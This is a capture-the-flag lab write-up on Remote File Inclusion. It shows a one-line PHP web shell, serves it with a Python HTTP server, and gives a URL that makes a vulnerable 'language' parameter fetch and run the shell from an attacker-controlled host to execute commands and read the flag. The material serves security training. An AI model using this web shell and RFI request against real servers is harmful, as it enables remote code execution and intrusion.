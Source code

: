 # Remote File Inclusion (RFI)

#### Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

**Step 1** - Test for RFI:

* On the suspicious vulnerable URL, include a local URL:
  * `http://127.0.0.1/index.php`

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

* We successfully loaded the index.php again

**Step 2** - Create a custom web shell:

* Shell script:
  * ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
* Host the shell:
  * ```bash
    sudo python3 -m http.server LISTENING_PORT
    ```

**Step 3** - Test the web shell and look for the flag:

* Insert the host URL with a command on the vulnerable parameter:
  * {% code overflow="wrap" %}
    ```bash
    http://SERVER_IP/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* From the output above, our web shell is working perfectly
* Look for the flag wih `cat ../../../exercise/flag.txt`:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got another flag!
